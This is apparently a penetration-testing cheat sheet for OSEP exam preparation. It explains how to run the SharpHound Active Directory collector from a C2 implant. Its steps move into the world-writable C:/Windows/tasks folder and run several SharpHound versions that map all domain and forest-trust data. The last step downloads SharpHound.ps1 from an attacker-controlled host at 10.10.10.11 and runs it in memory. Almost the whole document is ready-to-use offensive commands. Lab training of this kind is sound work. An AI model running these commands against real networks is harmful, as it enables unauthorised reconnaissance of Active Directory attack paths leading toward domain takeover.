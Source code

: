 # SharpHound

#### WARNING: Using legacy sharphound/bloodhound is recommended for OSEP challenges/exam as the latest one can't fetch all edges - Do run both specially in exam

### 1) Go within the world writable directory for ease

    cd C:/Windows/tasks


### 2) Run with all checks and grab details of any trusts between forests

    execute-assembly -t 200 -- /home/kali/tools/bins/csharp-files/SharpHound-v2.5.13.exe -C all --searchforest


### 3) Specify a different forest/domain with which we have trust

    execute-assembly -t 200 -- /home/kali/tools/bins/csharp-files/SharpHound-v2.5.13.exe -d domain.com -C all --searchforest


### 4) Run old version of Sharphound if the latest one does not get many edges - Use GPOLocalGroup as All would not use it
    
    execute-assembly -t 200 -- /home/kali/tools/bins/csharp-files/SharpHound-v1.1.1.exe -C all --searchforest
    execute-assembly -t 200 -- /home/kali/tools/bins/csharp-files/SharpHound-v1.1.1.exe -C All,GPOLocalGroup --searchforest


### 5) PowerShell Legacy - https://raw.githubusercontent.com/SpecterOps/BloodHound-Legacy/refs/heads/master/Collectors/SharpHound.ps1

    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/SharpHound.ps1 -c "Invoke-BloodHound -CollectionMethod All,GPOLocalGroup"'
    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/SharpHound.ps1 -c "Invoke-BloodHound -CollectionMethod All,GPOLocalGroup -SearchForest"'
